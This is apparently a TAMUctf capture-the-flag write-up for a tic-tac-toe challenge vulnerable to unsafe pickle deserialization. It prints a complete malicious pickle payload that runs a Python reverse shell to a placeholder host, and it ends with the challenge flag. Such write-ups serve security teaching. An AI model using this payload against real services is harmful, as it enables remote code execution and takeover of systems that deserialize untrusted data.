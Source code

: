 # tic tac toe

Hey, I made a new game!  If you can beat me enough times I'll give you a flag. 

`nc challenges.tamuctf.com 9397`

(provide game.py)

## (very brief) dev description

its a pickle RCE vuln

## solution

HEADS UP: you've found a *secret* **special** writeup that wouldn't work in the actual competition due to firewall
constraints. The specific payload used here doesn't work because it requires a reverse shell, which wasn't possible from
this particular challenge during the competition. However, a solving script which does not rely on this behaviour is
provided in [solve.py](solve.py), which was tested on infrastructure during the competition -- just in case. :)

-----

Manual inspection of the `game.py` provided clearly indicates improper use of the [pickle library](https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html#whitebox-review_1).

I have but one pickle payload that I throw at [literally everything pickle-y](https://addisoncrump.info/security/ctfs/smc3/wx01/).

```
cos
system
(S'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("HAHA-NO-IP-FOR-YOU",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\''
tR.
```

This spawns a reverse shell back to whatever target I like. Then, I simply execute `cat flag.txt` once I have the shell.

The solution provided by Teddy is far more elegant, but this gets the job done.

```
gigem{h3y_7h47_d035n'7_l00k_l1k3_4_p1ckl3d_54v3}
```
